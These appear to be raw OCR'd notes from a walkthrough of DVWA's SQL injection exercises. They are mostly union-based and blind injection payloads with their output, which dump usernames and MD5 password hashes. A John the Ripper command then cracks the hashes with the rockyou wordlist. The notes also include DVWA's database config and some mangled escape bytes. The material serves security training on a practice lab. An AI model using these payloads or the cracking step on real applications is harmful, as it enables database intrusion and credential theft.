 https://sharpforce.gitbook.io/cybersecurity/walkthroughs/damn-vulnerable-web-application/damn-vulnerable-web-application-dvwa/sql-injection-blind/niveau-medium

# SQL Injection

1' union select 'username', 'password' -- -
1' union SELECT DATABASE(), 'abc' -- -

ID: 1' union SELECT DATABASE(), 'abc' -- -
First name: dvwa
Surname: abc

0' union SELECT table_name, 'abc' FROM information_schema.tables WHERE table_schema = 'dvwa' -- -

ID: 0' union SELECT table_name, 'abc' FROM information_schema.tables WHERE table_schema = 'dvwa' -- -
First name: users
Surname: abc

ID: 0' union SELECT table_name, 'abc' FROM information_schema.tables WHERE table_schema = 'dvwa' -- -
First name: guestbook
Surname: abc


0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -

ID: 0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -
First name: user_id
Surname: abc

ID: 0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -
First name: first_name
Surname: abc

ID: 0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -
First name: last_name
Surname: abc

ID: 0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -
First name: user
Surname: abc

ID: 0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -
First name: password
Surname: abc

ID: 0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -
First name: avatar
Surname: abc

ID: 0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -
First name: last_login
Surname: abc

ID: 0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -
First name: failed_login
Surname: abc

0' union  SELECT user, password FROM users -- -


ID: 0' union  SELECT user, password FROM users -- -
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: 0' union  SELECT user, password FROM users -- -
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: 0' union  SELECT user, password FROM users -- -
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: 0' union  SELECT user, password FROM users -- -
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: 0' union  SELECT user, password FROM users -- -
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99



admin:5f4dcc3b5aa765d61d8327deb882cf99
gordonb:e99a18c428cb38d5f260853678922e03
1337:8d3533d75ae2c3966d7e0d4fcc69216b
pablo:0d107d09f5bbe40cade3de5c71e9e9b7
smithy:5f4dcc3b5aa765d61d8327deb882cf99

$ john  --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
$ john  hashes.txt --show --format=Raw-MD5
admin:password
gordonb:abc123
1337:charley
pablo:letmein
smithy:password







union  SELECT COLUMN_NAME, \xbf\x27abc\xbf\x27 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = \xbf\x27dvwa\xbf\x27 AND TABLE_NAME = \xbf\x27users\xbf\x27 -- -



10 union select user, password from users -- -

ASCII Hex

10 union SELECT DATABASE(), 1 -- -
==> dvwa


0x64767761 = dvwa

10 union SELECT table_name, 1 FROM information_schema.tables WHERE table_schema = 0x64767761 -- -
First name: users
First name: guestbook

SELECT concat('0x',hex(ascii('u')),hex(ascii('s')),hex(ascii('e')), hex(ascii('r')), hex(ascii('s')))
0x7573657273=users


0' union  SELECT COLUMN_NAME, 1 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 0x64767761 AND TABLE_NAME = 0x7573657273 -- -

First name: user_id
First name: first_name
First name: last_name
First name: user
First name: password
First name: avatar
First name: last_login
First name: failed_login


10 union SELECT users, password FROM  users -- -

$_DVWA = array();
$_DVWA[ 'db_server' ]   = '127.0.0.1';
$_DVWA[ 'db_database' ] = 'dvwa';
$_DVWA[ 'db_user' ]     = 'dvwa';
$_DVWA[ 'db_password' ] = 'p@ssw0rd';
$_DVWA[ 'db_port'] = '3306

$con = mysqli_connect( $_DVWA[ 'db_server' ],  $_DVWA[ 'db_user' ],  $_DVWA[ 'db_password' ], "", $_DVWA[ 'db_port' ] );



0' union select 1, 2 -- -
0' union SELECT user, password FROM users where user='admin
0' union SELECT user, password FROM users -- -
0' union SELECT concat(user), concat(password) FROM users -- -

SELECT ord(substr("abcd",2,1))


# blink

$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; 

## Name of database
dwva

1000' union select 1, 1 FROM users -- -

1000' union select user, password FROM users -- -
1000' union select user, password FROM users where user='admin

1000' union select user, password FROM users where SUBSTRING(user,1,1)='a
1000' union select user, password FROM users where SUBSTRING(user,1,5)='admin
1000' union select user, password FROM users where SUBSTRING(user,1,5)='admin
1000' union select user, password FROM users where user='admin' and length(user)='5
1000' union select user, password FROM users where user='admin' and length(user)=5 -- -
1000' union select user, password FROM users where user='admin' and length(password)=32 -- -

## medium

0x64767761
$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;"; 
1000 union select 1, 2 where length(DATABASE())=4
1000 union select 1, 2 where hex(substr(DATABASE(),1,1))=64
1000 union select 1, 2 where hex(substr(DATABASE(),2,1))=76
1000 union select 1, 2 where hex(substr(DATABASE(),3,1))=77
1000 union select 1, 2 where hex(substr(DATABASE(),4,1))=61




1000 union select user, password FROM users -- -
1000 union select user, password from users where user_id=1 -- -

1000 union select user, password FROM users where user='admin' and length(password)=32 -- -
1000 union select user, password FROM users where length(password)=32 -- -
select user, password from users where user_id=1000 union select user, password from users where user_id=1 -- -




dvwaSession